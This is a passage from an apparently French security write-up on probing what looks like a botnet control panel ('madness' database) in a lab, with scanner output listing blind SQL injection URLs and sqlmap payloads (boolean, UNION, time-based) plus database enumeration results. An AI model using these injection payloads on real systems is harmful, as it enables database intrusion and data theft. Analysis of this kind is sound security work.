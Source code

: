 ```plain
  Evil url: http://192.168.1.57/m/?uid=88039670&ver=1.14&mk=bb3b62&os=sleep%287%29%231&rs=adm&c=1&rq=0
Faille d'injection SQL en aveugle dans http://192.168.1.57/m/ via une injection dans le paramètre rs
  Evil url: http://192.168.1.57/m/?uid=88039670&ver=1.14&mk=bb3b62&os=WinXP&rs=sleep%287%29%231&c=1&rq=0
Faille d'injection SQL en aveugle dans http://192.168.1.57/m/ via une injection dans le paramètre c
  Evil url: http://192.168.1.57/m/?uid=88039670&ver=1.14&mk=bb3b62&os=WinXP&rs=adm&c=sleep%287%29%231&rq=0
Faille d'injection SQL en aveugle dans http://192.168.1.57/m/ via une injection dans le paramètre rq
  Evil url: http://192.168.1.57/m/?uid=88039670&ver=1.14&mk=bb3b62&os=WinXP&rs=adm&c=1&rq=sleep%287%29%231
```

On enchaine avec *sqlmap* sur le paramètre *uid* qui nous présente différentes techniques d'attaque :  

```plain
sqlmap identified the following injection points with a total of 42 HTTP(s) requests:
---
Place: GET
Parameter: uid
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: uid=88039670' AND 5822=5822 AND 'BNVA'='BNVA&ver=1.14&mk=bb3b62&os=WinXP&rs=adm&c=1&rq=0

    Type: UNION query
    Title: MySQL UNION query (NULL) - 4 columns
    Payload: uid=-8964' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x716d6a7071,0x5a6c444c4c796a655441,0x7178696b71)#&ver=1.14&mk=bb3b62&os=WinXP&rs=adm&c=1&rq=0

    Type: AND/OR time-based blind
    Title: MySQL > 5.0.11 AND time-based blind
    Payload: uid=88039670' AND SLEEP(5) AND 'UNfr'='UNfr&ver=1.14&mk=bb3b62&os=WinXP&rs=adm&c=1&rq=0
---
```

Les options d'énumération de *sqlmap* fonctionnent bien et permettent de récolter les informations suivantes :  

```plain
current user:    'root@localhost'
current database:    'madness'

Database: madness                                                                                                                                                                                             
[1 table]
+------+
| bots |
+------+

Database: madness                                                                                                                                                                                             
Table: bots
[9 columns]
+-------------+--------------+
| Column      | Type         |
+-------------+--------------+
| User        | varchar(255) |
| version     | varchar(6)   |
```